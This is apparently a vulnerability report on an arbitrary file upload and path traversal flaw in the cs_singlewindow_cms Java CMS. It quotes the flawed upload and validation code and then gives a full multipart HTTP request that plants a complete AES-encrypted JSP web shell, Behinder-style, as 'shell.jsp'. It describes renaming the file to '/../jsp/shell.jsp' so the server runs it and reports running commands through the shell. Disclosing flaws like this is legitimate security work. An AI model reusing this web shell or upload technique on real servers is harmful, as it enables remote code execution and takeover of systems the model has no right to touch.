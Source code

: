 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Software:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Vulnerability File:**

#### src/main/java/com/jspxcms/core/web/back/WebFileUploadsController.java

Controller:

```java
	@RequiresPermissions("core:web_file_2:upload")
	@RequestMapping("upload.do")
	public void upload(@RequestParam(value = "file", required = false) MultipartFile file, String parentId,
			HttpServletRequest request, HttpServletResponse response) throws IllegalStateException, IOException {
		super.upload(file, parentId, request, response);
	}

```

Functions for file upload:

```java
	protected void upload(MultipartFile file, String parentId, HttpServletRequest request, HttpServletResponse response)
			throws IllegalStateException, IOException {
		Site site = Context.getCurrentSite();
		// parentId = parentId == null ? base : parentId;
		String base = getBase(site);
		if (!Validations.uri(parentId, base)) {
			throw new CmsException("invalidURI", parentId);
		}
		FileHandler fileHandler = getFileHandler(site);
		fileHandler.store(file, parentId);
		logService.operation("opr.webFile.upload", parentId + "/" + file.getOriginalFilename(), null, null, request);
		logger.info("upload file, name={}.", parentId + "/" + file.getOriginalFilename());
		Servlets.writeHtml(response, "true");
	}
```

​	The approximate function of this function is to get the site information, verify the input parameters, then save the file, and then write the file information to the log.

```java
public static boolean uri(String value, String prefix) {
    return !StringUtils.contains(value, "..")
            && StringUtils.startsWith(value, prefix);
}
```

​	There's a filter here..', but the strange thing is that the filtered parentId is not the file name, and the file name is not modified, and there is not even a check on the suffix, so there is an arbitrary file upload and directory penetration here, and then this project will also parse the JSP, but it needs to be put in the JSP folder under the webapp, but there is also a directory penetration here, so this is not a problem, come to the front-end function point.

​	![image-20241209173324471](img/image-20241209173324471.png)

​	After uploading the file, the following packets are obtained:

```http
POST /cmscp/core/web_file_2/upload.do?_site=1 HTTP/1.1
Host: 192.168.227.43:8888
Content-Length: 2387
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZzeGAny76zA7fCma
Origin: http://192.168.227.43:8888
Referer: http://192.168.227.43:8888/cmscp/core/web_file_2/list.do?parentId=%2F1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: select_id=%2F1; open_ids=%2F1; _site=1; JSESSIONID=526DEDE9E36FE99249985E52A100BE8E
Connection: close

------WebKitFormBoundaryZzeGAny76zA7fCma
Content-Disposition: form-data; name="parentId"

/1
------WebKitFormBoundaryZzeGAny76zA7fCma
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,java.io.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    private byte[] Decrypt(byte[] data) throws Exception
    {
        String k="e45e329feb5d925b";
        javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES/ECB/PKCS5Padding");c.init(2,new javax.crypto.spec.SecretKeySpec(k.getBytes(),"AES"));
        byte[] decodebs;
        Class baseCls ;
                try{
                    baseCls=Class.forName("java.util.Base64");
                    Object Decoder=baseCls.getMethod("getDecoder", null).invoke(baseCls, null);
                    decodebs=(byte[]) Decoder.getClass().getMethod("decode", new Class[]{byte[].class}).invoke(Decoder, new Object[]{data});
                }
                catch (Throwable e)
                {
                    baseCls = Class.forName("sun.misc.BASE64Decoder");
                    Object Decoder=baseCls.newInstance();
                    decodebs=(byte[]) Decoder.getClass().getMethod("decodeBuffer",new Class[]{String.class}).invoke(Decoder, new Object[]{new String(data)});

                }
        return c.doFinal(decodebs);

    }
%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return
        super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            byte[] buf = new byte[512];
            int length=request.getInputStream().read(buf);
            while (length>0)
            {
                byte[] data= Arrays.copyOfRange(buf,0,length);
                bos.write(data);
                length=request.getInputStream().read(buf);
            }
            /* 取消如下代码的注释，可避免response.getOutputstream报错信息，增加某些深度定制的Java web系统的兼容性
            out.clear();
            out=pageContext.pushBody();
            */
            out.clear();
            out=pageContext.pushBody();
        new U(this.getClass().getClassLoader()).g(Decrypt(bos.toByteArray())).newInstance().equals(pageContext);}
%>
------WebKitFormBoundaryZzeGAny76zA7fCma--

```

​	Modify the file name as: /.. /jsp/shell.jsp, after which we visit [192.168.227.43:8888/shell.jsp] (http://192.168.227.43:8888/shell.jsp), we will find that there is no prompt 404, that is, the horse is successful, we use the ice scorpion link, and enter the calc command to pop up the computer, and it can be seen that the command was successfully executed.

![image-20241209173729074](img/image-20241209173729074.png)